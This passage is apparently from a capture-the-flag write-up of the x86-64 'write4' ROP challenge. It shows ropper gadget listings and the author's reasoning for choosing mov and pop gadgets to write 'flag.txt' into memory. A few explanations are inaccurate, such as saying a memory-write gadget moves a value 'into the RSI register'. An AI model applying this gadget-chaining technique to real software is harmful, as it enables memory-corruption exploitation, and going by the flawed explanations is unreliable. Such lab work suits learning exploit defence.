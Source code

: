 ```
0x00000000004004d5: mov eax, dword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; add rsp, 8; ret; 
0x0000000000400609: mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret; 
0x00000000004005db: mov ebp, esp; call 0x560; mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret; 
0x0000000000400619: mov ebp, esp; mov edi, 0x4006b4; call 0x510; nop; pop rbp; ret; 
0x000000000040061b: mov edi, 0x4006b4; call 0x510; nop; pop rbp; ret; 
0x000000000040057c: mov edi, 0x601038; jmp rax; 
0x0000000000400628: mov qword ptr [r14], r15; ret; 
0x00000000004004d4: mov rax, qword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; 
0x00000000004004d4: mov rax, qword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; add rsp, 8; ret; 
0x0000000000400608: mov rbp, rsp; call 0x500; mov eax, 0; pop rbp; ret; 
0x00000000004005da: mov rbp, rsp; call 0x560; mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret; 
0x0000000000400618: mov rbp, rsp; mov edi, 0x4006b4; call 0x510; nop; pop rbp; ret;
```

This time, `ropper` found quite a few `mov` gadgets. Noticably, `mov dword ptr [rsi], edi; ret;` and `mov qword ptr [r14], r15; ret;`.

The first of the two mentioned gadgets moves the value stored in the `EDI` register into the `RSI` register. `x86` registers (such as `EDI`) can only store 4 bytes, this means that I would have to perform two write operations to write the string **"flag.txt"** into the `.data` section, as I did in the `x86` binary exploitation. However, the second gadget uses only `64-bit` registers which can hold a full 8 bytes. As well as using `qword` which is double a `dword`. Thinking back to the `x86` binary, `dword` only holds 4 bytes, meaning a `qword` holds 8 bytes. So, I will focus on the second gadget as it would allow me to only perform a single write operation.

The gadget `mov qword ptr [r14], r15; ret;` uses the registers `r14` and `r15`. This means that I needed to find two **pop** gadgets to pop the `r14` and `r15` register.

```
$ ropper -f ./write4 --search "pop"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: ./write4
0x000000000040068c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068e: pop r13; pop r14; pop r15; ret; 
0x0000000000400690: pop r14; pop r15; ret; 
0x0000000000400692: pop r15; ret; 
0x000000000040057b: pop rbp; mov edi, 0x601038; jmp rax; 
0x000000000040068b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068f: pop rbp; pop r14; pop r15; ret; 
0x0000000000400588: pop rbp; ret; 
0x0000000000400693: pop rdi; ret; 
0x0000000000400691: pop rsi; pop r15; ret; 
0x000000000040068d: pop rsp; pop r13; pop r14; pop r15; ret;
```

Similarly to the `x86` binary, `ropper` located a single gadget that **pops** both the `r14` and `r15` registers, `pop r14; pop r15; ret;` located at the address `0x0000000000400690`.

